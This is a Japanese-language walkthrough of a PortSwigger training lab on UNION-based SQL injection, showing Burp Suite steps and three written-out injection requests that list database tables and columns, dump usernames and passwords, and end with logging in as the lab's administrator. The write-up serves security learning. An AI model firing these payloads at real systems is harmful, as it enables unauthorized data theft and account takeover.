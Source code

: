 # SQL インジェクション攻撃、Oracle 以外のデータベース上のデータベースの内容をリストする

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle  
このラボには、製品カテゴリ フィルターに SQL インジェクションの脆弱性が含まれています。クエリの結果はアプリケーションの応答で返されるため、UNION 攻撃を使用して他のテーブルからデータを取得できます。

- 1. Burp Suite を起動して、Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. カテゴリーでフィルタリングします
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/39484716-5966-46ef-8582-1c32694198b6)
- 4. GET /filter?category=Pets HTTP/2 リクエストを send to repeater します
- 5. テーブル一覧を取得する SQL をユニオンして送信します

```
GET /filter?category=Pets'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/2
```

結果としてテーブル一覧が取得できます

```html
<tr>
  <th>users_yxqakq</th>
</tr>
```

- 6. users テーブルの詳細を取得します

```
GET /filter?category=Pets'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_yxqakq'-- HTTP/2
```

レスポンス

```html
<tr>
  <th>password_xqarey</th>
</tr>
<tr>
  <th>username_ohniyp</th>
</tr>
```

- 7. ユーザーテーブルの一覧データを取得します

```
GET /filter?category=Pets'+UNION+SELECT+username_ohniyp,+password_xqarey+FROM+users_yxqakq-- HTTP/2
```

レスポンス

```html
<th>administrator</th>
<td>0wf4sjmsmwogq5xw40dd</td>
```

- 8. 取得した管理者アカウントでログインします
